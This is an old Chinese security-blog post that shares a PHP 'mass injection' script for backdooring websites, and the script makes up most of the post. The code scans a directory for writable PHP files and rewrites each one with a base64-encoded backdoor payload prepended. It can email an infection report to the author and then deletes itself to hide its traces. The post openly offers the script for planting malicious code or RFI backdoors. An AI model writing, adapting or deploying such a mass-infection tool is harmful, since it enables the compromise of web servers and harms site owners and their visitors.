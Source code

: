 ```yaml
---
title: PHP批量挂马脚本
description: 来源：红狼作者：f3v3r批量写入档案脚本...可以拿来挂马也能拿来当RFI的后门注入code都写明的，有需要的请自己看后门写在$inj里面，要做base64encode的Polymorphic不希望这个东西被搞破坏的人拿去玩懂原理的就自个儿收下吧
date: 2008-03-04 10:16:02
category: 安全工具
tags: ['脚本Script', 'PHP', '源码']
post_id: 391
alias: PHP-piliang-guama-jiaoben
ViewNums: 11207
---
```

## [PHP](/tags/PHP)批量挂马脚本

来源：红狼
作者：f3v3r

批量写入档案脚本...
可以拿来挂马
也能拿来当RFI的后门[注入](/tags/%E6%B3%A8%E5%85%A5)
code都写明的，有需要的请自己看
[后门](/tags/%E5%90%8E%E9%97%A8)写在$inj里面，要做base64 encode的Polymorphic
不希望这个东西被搞破坏的人拿去玩
懂原理的就自个儿收下吧
```php
<?php
set_time_limit(0);
ignore_user_abort(1);
# PHP Mass Injection Script by f3v3r ver.228
# |1| Look for PHP in directory.|2| Check injected.
# |3| Inject script. |4|Can email report to you.
$inj ='';
$log_email = 0;//change 1 enable, somehow they can trace you by this way.
$email = 'f3v3r@cc.cc';
$log_report = 1;
$filename = '__log.html';
$delete_me = 1;

echo '<title>f3v3r injection toolz</title><center><strong>Defacez aint hack, r00tz r.</strong></center><br>';
$dir = opendir('.');
$site=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
while ($file = readdir($dir))
{
if (strstr($file, '.php') && is_writeable($file))
{
$victim = fopen($file, 'r+');
$victim_read = fread($victim, filesize($file));
if (!strstr($victim_read, 'f3v3r'))
{
fclose($victim);
unlink($file);
$new = fopen($file, 'a+');
$new_write = fwrite($new, base64_decode($inj) . $victim_read);
fclose($new);
echo '<strong>[-] injecting : ' . $site . '</strong><br>';
echo '[x] injected: ' . $file . '<br>';
if($log_email) { $log = fopen('__tmp', 'a+'); fwrite($log, '[x] File: ' . getcwd() . $file . '<br>'); fclose($log); }
if($log_report) { $x = fopen($filename, 'a+'); fwrite($x, '[x] File: ' . getcwd() . $file . '
'); fclose($x); }
}
}
}
closedir($dir);
if($log_email) { $report = file_get_contents('__tmp'); mail($email, "injection report", '<br>f3v3r<br> ' .$report, 'From: f3v3r <f3v3r@cc.cc>'); unlink('__tmp'); echo '[x] Email Report Sent!';}
if($delete_me) { unlink(__file__); }
exit;
?>
```
MD5 checksum:DE734BDAC73E6ECE8DD3DB40416976E8
#f3v3r

下载：[injection.rar](/blog/download.asp?id=55 (1.52 KB)

